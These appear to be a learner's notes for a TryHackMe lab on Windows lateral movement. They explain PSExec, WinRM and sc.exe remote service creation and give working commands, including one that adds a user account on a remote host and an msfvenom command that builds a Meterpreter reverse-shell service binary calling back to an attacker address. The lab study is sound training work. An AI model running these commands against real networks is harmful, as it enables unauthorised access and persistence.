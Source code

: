 https://tryhackme.com/r/room/lateralmovementandpivoting

Fix TryHackMe Network DNS
```bash
resolvectl dns lateralmovement 10.200.104.101 #interface and DNS IP
```
### Spawning Processes Remotely
#### PSExec
Port 445/TCP
Required Group Membership: Administrator

The way psexec works is as follows:

1. Connect to Admin$ share and upload a service binary. Psexec uses psexesvc.exe as the name.
2. Connect to the service control manager to create and run a service named PSEXESVC and associate the service binary with `C:\Windows\psexesvc.exe`.
3. Create some named pipes to handle stdin/stdout/stderr.

```powershell
psexec64.exe \\machine_ip -u administrator -p password -i cmd.exe
```

#### WinRM
```powershell
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd

or

Enter-PSSession -Computername TARGET -Credential $credential
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

#### sc Create Services
Ports:
135/TCP, 49152-65535/TCP (DCE/RPC)
445/TCP (RPC over SMB Named Pipes)
139/TCP (RPC over SMB Named Pipes)
Required Group Memberships: Administrators

When using sc, will try to connect to Serv Contr Man (SVCCTL) through RPC
- Attempt using DCE/RPC, connect to Endpoint Man (EPM) port 135, catalog of RPC endpoints, EPM will then respond with IP and port to connect to SVCCTL, usually dynamic port in range 49152-65535
- Attempt to reach SVCCTL through SMB named pipe on 445 (SMB) or 139 (SMB over NetBIOS)
```powershell
sc.exe \\target create thmservice binpath= "net user munra Pass123 /add" start= auto
sc.exe \\target start thmservice

additional verbs: stop, delete
```


Service exe's are different than standard, and will die almost immediately upon execution

```
msfvenom -p windows/meterpreter/reverse_winhttps -f exe-service LHOST=10.50.100.173 LPORT=8080 -o INVISIBLE_PILLOW.exe
```
